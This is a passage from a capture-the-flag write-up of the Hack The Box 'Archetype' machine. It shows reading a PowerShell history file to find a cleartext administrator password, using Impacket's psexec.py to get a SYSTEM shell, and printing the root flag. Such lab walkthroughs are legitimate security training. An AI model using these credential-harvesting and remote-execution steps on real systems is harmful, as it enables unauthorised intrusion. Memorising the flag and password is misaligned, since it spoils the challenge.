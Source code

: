	 Directory of C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine
	
	01/20/2020  06:04 AM    <DIR>          .
	01/20/2020  06:04 AM    <DIR>          ..
	03/17/2020  02:36 AM                79 ConsoleHost_history.txt
	               1 File(s)             79 bytes
	               2 Dir(s)  10,715,648,000 bytes free

We can read the command log file with the `type` command:

	C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine>type ConsoleHost_history.txt
	type ConsoleHost_history.txt
	net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
	exit

And we got in cleartext the password for the `Administrator` user which is `MEGACORP_4dm1n!!`

We can now use the tool `psexec.py` again from the Impacket suite to get a shell as the administrator:

	┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.41]─[scrage@htb-qxoqm2neih]─[~/impacket/examples]
	└──╼ [★]$ python3 psexec.py administrator@10.129.95.187
	Impacket v0.13.0.dev0+20240916.171021.65b774de - Copyright Fortra, LLC and its affiliated companies 
	
	Password:
	[*] Requesting shares on 10.129.95.187.....
	[*] Found writable share ADMIN$
	[*] Uploading file tYOcOXbf.exe
	[*] Opening SVCManager on 10.129.95.187.....
	[*] Creating service FcTB on 10.129.95.187.....
	[*] Starting service FcTB.....
	[!] Press help for extra shell commands
	Microsoft Windows [Version 10.0.17763.2061]
	(c) 2018 Microsoft Corporation. All rights reserved.
	
	C:\Windows\system32> whoami
	nt authority\system

Let's exfiltrate the root flag as well from the Desktop folder.

	C:\Users\Administrator\Desktop> dir
	 Volume in drive C has no label.
	 Volume Serial Number is 9565-0B4F
	
	 Directory of C:\Users\Administrator\Desktop
	
	07/27/2021  02:30 AM    <DIR>          .
	07/27/2021  02:30 AM    <DIR>          ..
	02/25/2020  07:36 AM                32 root.txt
	               1 File(s)             32 bytes
	               2 Dir(s)  10,715,590,656 bytes free
	
	C:\Users\Administrator\Desktop> type root.txt
	b91ccec3305e98240082d4474b848528

Root flag exfiltrated: `b91ccec3305e98240082d4474b848528`



https://www.hackthebox.com/achievement/machine/2057492/287
![[Pasted image 20241006191027.png]]
